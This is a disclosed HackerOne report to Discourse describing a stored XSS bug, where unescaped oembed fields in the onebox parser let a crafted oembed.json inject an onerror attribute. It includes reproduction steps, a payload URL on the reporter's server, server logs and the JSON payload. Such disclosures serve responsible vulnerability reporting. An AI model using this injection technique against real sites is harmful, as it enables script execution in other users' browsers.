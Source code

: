 # Stored XSS in posts because of absence of oembed variables values escaping

## Report Details
- **Report ID**: 197914
- **URL**: https://hackerone.com/reports/197914
- **State**: Closed
- **Severity**: high
- **Submitted**: 2017-01-12T19:24:00.373Z
- **Disclosed**: 2017-01-20T23:50:01.965Z

## Reporter
- **Username**: skavans
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: discourse

## Vulnerability Information
Hello!

**Steps to reproduce:**
1. Paste this payload URL in the post: http://89.223.28.48/oembed_video.html?uncache
2. Save the post and you will see the XSS will fire.

{F151922}

The vulnerability exists because of absence of oembed variables values escaping.
There is the oembed link in the payload page:

```html
<link type='application/json+oembed' href='http://89.223.28.48/oembed.json'>
```
As you can see the onebox parser goes to this oembed URL to get the data:
```
64.71.168.198 - - [12/Jan/2017:19:13:52 +0000] "GET /oembed_video.html HTTP/1.1" 200 388 "-" "Ruby"
64.71.168.198 - - [12/Jan/2017:19:13:52 +0000] "GET /oembed.json HTTP/1.1" 200 389 "-" "Ruby"
```
The content of *oembed.json* is:
```json
{
        "type": "image",
        "image": "xss",
        "description": "descr' onerror='alert(/XSS by skavans/)",
        "image_width": 1,
        "image_height": 1
}
```

So the unescaped data is injected in the raw HTML at [this line](https://github.com/discourse/onebox/blob/master/lib/onebox/engine/whitelisted_generic_onebox.rb#L284) of generic_whitelisted onebox engine that leads to XSS vulnerability.

The example post with stored XSS inside is: https://try.discourse.org/t/this-is-just-one-test/632

Please let me know if you need some extra information to locate and fix the bug.

## Attachments
- ______________2017-01-12___22.17.11.png
